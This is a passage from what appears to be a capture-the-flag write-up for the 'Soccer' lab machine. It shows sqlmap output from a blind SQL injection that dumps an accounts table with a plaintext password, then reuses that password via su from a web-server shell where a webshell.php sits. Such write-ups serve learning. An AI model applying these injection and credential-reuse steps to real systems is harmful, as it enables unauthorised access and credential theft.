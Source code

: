 ```bash
[20:50:37] [INFO] retrieving the length of query output
[20:50:37] [INFO] retrieved: 
[20:50:37] [INFO] retrieved: 
[20:50:38] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                                                    
player@player.htb
[20:52:50] [INFO] retrieving the length of query output
[20:52:50] [INFO] retrieved: 
[20:52:50] [INFO] retrieved: 
[20:52:50] [INFO] retrieved: 1324
[20:53:15] [INFO] retrieving the length of query output
[20:53:15] [INFO] retrieved: 
[20:53:15] [INFO] retrieved: 
[20:53:16] [INFO] retrieved: PlayerOftheMatch2022
[20:55:30] [INFO] retrieving the length of query output
[20:55:30] [INFO] retrieved: 
[20:55:31] [INFO] retrieved: 
[20:55:31] [INFO] retrieved: player
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+

[20:56:16] [INFO] table 'soccer_db.accounts' dumped to CSV file '/home/emvee/.local/share/sqlmap/output/soc-player.soccer.htb/dump/soccer_db/accounts.csv'
[20:56:16] [INFO] fetched data logged to text files under '/home/emvee/.local/share/sqlmap/output/soc-player.soccer.htb'
[20:56:16] [WARNING] your sqlmap version is outdated

[*] ending @ 20:56:16 /2024-03-08/

```
We have found a plaintext password for `player@player.htb`. We should add it to our notes first.
- PlayerOftheMatch2022
## Privilege escalation
Since we found some credentials for the user player, we should try to reuse the password while we switch to the user.

```bash
www-data@soccer:~/html/tiny/uploads$ su player
su player
Password: PlayerOftheMatch2022
ls
webshell.php
cd ~
cat user.txt
< HERE IS THE USER FLAG >

```
